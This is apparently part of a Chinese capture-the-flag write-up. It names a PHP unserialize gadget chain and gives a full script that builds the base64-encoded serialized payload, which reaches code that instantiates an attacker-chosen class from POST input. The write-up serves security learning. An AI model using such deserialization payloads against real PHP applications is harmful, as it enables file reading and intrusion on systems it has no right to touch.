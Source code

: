 ```bash
}
?>
```

链子还是比较清晰的

```bash
school::__wakeup()->classroom::hahaha()->school::IPO()
```

```bash
<?php
class teacher{
    public $name;
    public $rank;
    private $salary;
    public function __construct($name,$rank,$salary = 10000){
        $this->name = $name;
        $this->rank = $rank;
        $this->salary = $salary;
    }
}

class classroom{
    public $name;
    public $leader;
    public function __construct($name,$leader){
        $this->name = $name;
        $this->leader = $leader;
    }
    public function hahaha(){
        if($this->name != 'one class' or $this->leader->name != 'ing' or $this->leader->rank !='department'){
            return False;
        }
        else{
            return True;
        }
    }
}

class school{
    public $department;
    public $headmaster;
    public function __construct($department,$ceo){
        $this->department = $department;
        $this->headmaster = $ceo;
    }
    public function IPO(){
        if($this->headmaster == 'ong'){
            echo "Pretty Good ! Ctfer!\n";
            echo new $_POST['a']($_POST['b']);
        }
    }
    public function __wakeup(){
        if($this->department->hahaha()) {
            $this->IPO();
        }
    }
}
$a=new teacher('ing','department');
$b=new classroom('one class',$a);
$c=new school($b,'ong');
echo base64_encode(serialize($c));
```
